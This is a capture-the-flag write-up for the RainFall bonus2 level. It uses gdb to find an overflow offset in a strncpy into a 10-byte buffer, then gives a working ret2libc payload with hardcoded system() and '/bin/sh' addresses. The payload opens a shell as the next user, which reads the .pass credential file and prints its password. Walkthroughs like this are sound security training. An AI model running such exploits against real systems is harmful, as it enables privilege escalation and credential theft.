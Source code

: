This program has a different behaviour depending on the `LANG` environment variable. There are three possible states :

```bash
LANG="fi"
LANG="nl"
LANG=*
```

So I first tried :

```bash
bonus2@RainFall:~$ export LANG="fi"
```

And tried to segfault the program with a buffer overflow.
First we see that the `strncpy` copies up to 40 bytes in a 10 bytes buffer. And we put a lot of bytes into the second argument :

>bonus2@RainFall:~$ gdb -q --args ./bonus2 `python -c 'print("A" * 40)'` `python -c 'print("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH")'`
>Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
>(gdb) run
>Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
>Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
>Program received signal SIGSEGV, Segmentation fault.
>0x46464545 in ?? ()

There is a segfault beginning at the third `E`. So as done previously, we can call `sytem("/bin/sh") from there :

>bonus2@RainFall:~$ ./bonus2 `python -c 'print("A" * 40)'` `python -c 'print("AAAABBBBCCCCDDDDEE" + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7")'`
>Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEE`��IDGBX���
>$ whoami
>bonus3
>$ cat /home/user/bonus3/.pass
>71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587

```bash
su bonus3
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

